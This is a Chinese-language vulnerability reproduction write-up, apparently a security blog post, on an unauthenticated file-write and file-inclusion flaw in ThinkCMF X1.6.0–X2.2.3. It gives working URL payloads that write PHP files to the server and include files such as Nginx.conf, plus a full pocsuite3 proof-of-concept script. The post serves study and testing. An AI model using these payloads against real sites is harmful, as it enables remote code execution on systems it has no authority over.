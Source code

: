 ```yaml
---
title:  ThinkCMF框架任意内容包含漏洞复现
date: 2019-10-24 11:23:43
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - ThinkCMF
    - 任意内容包含
    - 漏洞复现
---
```


# 0x00 漏洞概述

ThinkCMF是一款基于PHP+MYSQL开发的中文内容管理框架，底层采用ThinkPHP3.2.3构建。

利用此漏洞无需任何权限情况下，构造恶意的url，可以向服务器写入任意内容的文件，实现远程代码执行。

# 0x01 影响范围

* ThinkCMF X1.6.0
* ThinkCMF X2.1.0
* ThinkCMF X2.2.0
* ThinkCMF X2.2.1
* ThinkCMF X2.2.2
* ThinkCMF X2.2.3

# 0x02 漏洞复现
## 环境搭建

本地使用phpstudy搭建`ThinkCMF X2.2.3`

记得使用`Nginx`服务器，不然安装界面会提示没有权限。

`You don't have permission to access / on this server.`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191024121247.png)

根据安装向导安装即可

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191024121445.png)

## 漏洞利用

**第一种**
通过构造a参数的fetch方法，可以不需要知道文件路径就可以把php代码写入文件

phpinfo版payload如下：

`?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>`

执行结果如下：

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191024121913.png)

访问写入的文件

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191024122021.png)


**第二种**

通过构造a参数的display方法，实现任意内容包含漏洞

payload:

`?a=display&templateFile=README.md`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191024122420.png)

## POC

```
#! python3
"""

@FileName: thinkcmf_2_2_3_file_inclusion.py
@Author: dylan
@software: PyCharm 
@Datetime: 2019-10-24 13:55

"""

import urllib.parse
from pocsuite3.api import Output, POCBase, register_poc, requests, logger


class DemoPOC(POCBase):
    vulID = "0"  # ssvid ID 如果是提交漏洞的同时提交 PoC,则写成 0
    version = "3.0"  # 默认为1
    author = "dylan"  # PoC作者的大名
    vulDate = "2019/10/24"  # 漏洞公开的时间,不知道就写今天
    createDate = "2019/10/24"  # 编写 PoC 的日期
    updateDate = "2019/10/24"  # PoC 更新的时间,默认和编写时间一样
    references = [
        "https://dylan903.coding.me/2019/10/24/thinkcmf-kuang-jia-ren-yi-nei-rong-bao-han-lou-dong-fu-xian/"]  # 漏洞地址来源,0day不用写
    name = "thinkcmf_2_2_3_file_inclusion"  # PoC 名称
    appPowerLink = ""  # 漏洞厂商主页地址
    appName = "ThinkCMF"  # 漏洞应用名称
    appVersion = 'ThinkCMF X1.6.0、X2.1.0、X2.2.0、X2.2.1、X2.2.2、X2.2.3'  # 漏洞影响版本
    vulType = "File Inclusion"  # 漏洞类型,类型参考见 漏洞类型规范表
    desc = """

    """  # 漏洞简要描述
    samples = [""]  # 测试样列,就是用 PoC 测试成功的网站
    install_requires = []  # PoC 第三方模块依赖，请尽量不要使用第三方模块，必要时请参考《PoC第三方模块依赖说明》填写
    pocDesc = """

    """

    def _verify(self):
        # 验证代码
        result = {}
        payload1 = '?a=fetch&templateFile=public/index&prefix=%27%27&content=<php>file_put_contents(%27test.php%27,' \
                   '%27hello world!%27)</php> '
        payload2 = '?a=display&templateFile=Nginx.conf'
        path1 = self.url + payload1
        path2 = self.url + payload2
        
        respose1 = requests.get(path1, verify=False, timeout=30)
        respose2 = requests.get(self.url + "/test.php", verify=False, timeout=30)
        respose3 = requests.get(path2, verify=False, timeout=30)
        
        if 'hello world!' in respose2.text:  # result是返回结果
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            result['VerifyInfo']['VUL1'] = "目标存在文件写入漏洞"
        if 'location' in respose3.text:
            result['VerifyInfo']['VUL2'] = "目标存在文件包含漏洞"

        return self.parse_output(result)

    def _attack(self):
        # 攻击代码
        return self._verify()

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail("Internet nothing returned")
        return output


# 注册 DemoPOC 类
register_poc(DemoPOC)
```

# 参考文章
[ThinkCMF框架上的任意内容包含漏洞 - FreeBuf互联网安全新媒体平台](https://www.freebuf.com/vuls/217586.html)
[ThinkCMF框架任意内容包含漏洞分析复现](https://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247483900&idx=1&sn=028d4d1c0f804af29594380de17ebf93)